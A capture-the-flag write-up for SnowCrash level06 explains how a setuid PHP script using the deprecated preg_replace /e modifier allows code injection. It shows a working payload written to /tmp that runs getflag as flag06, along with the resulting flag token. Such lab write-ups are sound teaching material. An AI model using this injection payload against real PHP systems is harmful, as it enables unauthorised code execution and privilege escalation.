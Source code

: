 Level 06
========

*	We spawn with a `level06` file in root repository
	```console
	level06@SnowCrash:~$ ls -l
	total 12
	-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
	level06@SnowCrash:~$ cat level06.php 
	```
	```php
	#!/usr/bin/php
	<?php
	function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
	function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
	$r = x($argv[1], $argv[2]); print $r;
	?>
	```
*	It is quite unreadable so i made it better in `level06.php`
*	When we look in detail, we can see that the executable runs the script of the `level06.php` file
*	More important, in the permissions we can see that `level06` will be executed as `flag06`
*	The script is pretty straight forward:
	> It defines two functions:
	>	- Function y($m): Replaces dots (.) with " x " and @ with " y".
	>	- Function x($y, $z): Reads the content of a file specified by $y, applies some 	transformations to the content, and returns the modified content.

	> It then calls function x() with command line arguments $argv[1] and $argv[2], which are typically provided when the script is executed from the command line.

	> The result of the function call is stored in $r, and it's printed out at the end.
*	The important part here is that the regex has major security issues
	```php
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	```
*	Here the `/e` regex modifier is a deprecated one which allows you to use **PHP** code within your reguler expression, which means whatever is parsed will be part of the program
*	We can use this vulnerability to execute `getflag`
*	So let's create the file argument with the exploit inside :
	```console
	level06@SnowCrash:~$ echo -e "[x {\${exec(getflag)}}]" > /tmp/test1
	level06@SnowCrash:~$ ./level06 /tmp/test1
	PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
	```